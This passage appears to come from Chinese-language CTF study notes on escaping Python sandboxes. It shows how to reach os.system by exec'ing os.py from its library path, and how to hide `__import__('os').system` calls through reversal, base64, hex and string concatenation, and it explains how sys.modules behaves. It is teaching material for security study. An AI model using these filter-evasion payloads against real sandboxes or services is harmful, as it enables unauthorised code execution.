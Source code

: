    ```python
   execfile('/usr/lib/python2.7/os.py')
   system('ls')
   ```

   `Python2.x`和`Python3.x`通用

   ```python
   with open('/usr/lib/python3.9/os.py') as f:
       exec(f.read())
   system('ls')
   ```

   不过要使用上面的这两种方法，就必须知道库的路径。其实在大多数的环境下，库都是默认路径。如果 `sys `没被干掉的话，还可以确认一下

   ```python
   import sys
   print(sys.path)
   ```

### 花式处理字符串

倒置，base编码，hex，字符串拼接，rot13等等，再通过利用`eval`或者`exec`

- `__import__('so'[::-1]).system('dir')`
- `eval(')"imaohw"(metsys.)"so"(__tropmi__'[::-1])`
- `eval(__import__('base64').b64decode('X19pbXBvcnRfXygnb3MnKS5zeXN0ZW0oJ2Rpcicp').decode('utf-8'))`
- `eval(b'1'.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `eval(bytes.fromhex('5f5f696d706f72745f5f28276f7327292e73797374656d28276469722729').decode('utf-8'))`
- `a='o';b='s';__import__(a+b).system('dir')`

### sys.modules

`sys.modules` 是一个字典，里面储存了加载过的模块信息。如果 Python 是刚启动的话，所列出的模块就是解释器在启动时自动加载的模块。有些库例如 `os` 是默认被加载进来的，但是不能直接使用，原因在于 sys.modules 中未经 import 加载的模块对当前空间是不可见的。

如果将 os 从 sys.modules 中剔除，os 就彻底没法用了：

![image-20230730195551282](daydayup.assets/image-20230730195551282.png)

注意，这里不能用 `del sys.modules['os']`，因为，当 import 一个模块时：import A，检查 sys.modules 中是否已经有 A，如果有则不加载，如果没有则为 A 创建 module 对象，并加载 A。

所以删了 `sys.modules['os']` 只会让 Python 重新加载一次 os。
